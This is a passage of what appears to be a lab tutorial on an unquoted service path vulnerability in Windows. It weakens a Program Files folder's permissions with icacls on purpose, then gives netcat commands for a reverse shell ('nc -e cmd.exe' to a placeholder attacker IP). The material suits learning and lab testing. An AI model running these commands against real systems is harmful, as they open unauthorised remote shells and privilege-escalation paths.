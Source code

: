Let us grant write access to Users Group for **a folder**.
<br><br>Run:
{% highlight powershell %}
icacls "C:\Program Files\a folder" /grant "BUILTIN\Users":W
{% endhighlight %}
Then run:
{% highlight powershell %}
icacls "C:\Program Files\a folder"
{% endhighlight %}
This time you will see a new entry **BUILTIN\\Users:(W)**
<br><br>Now the user we have created, krygen, can write to that specific directory.
![](/assets/img/posts/unquoted-service-path-vulnerability/17.jpg)<br><br>

Log in to the system with the account that you have created which belongs to the Users Group, for me it is krygen user.
<br>We will assume that, somehow you have gained accessed to the system as the user krygen.
<br>I will use [**netcat**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe)
in order to establish a connection and take a shell from krygen to my attacker machine.
<br><br>Run this on the attacker machine: 
{% highlight powershell %}
nc -nvlp {SOME FREE PORT}
{% endhighlight %}
Run that on the windows machine: 
{% highlight powershell %}
nc -e cmd.exe {IP OF THE ATTACKER MACHINE} {PORT THE ATTACKER MACHINE LISTENS TO}
{% endhighlight %}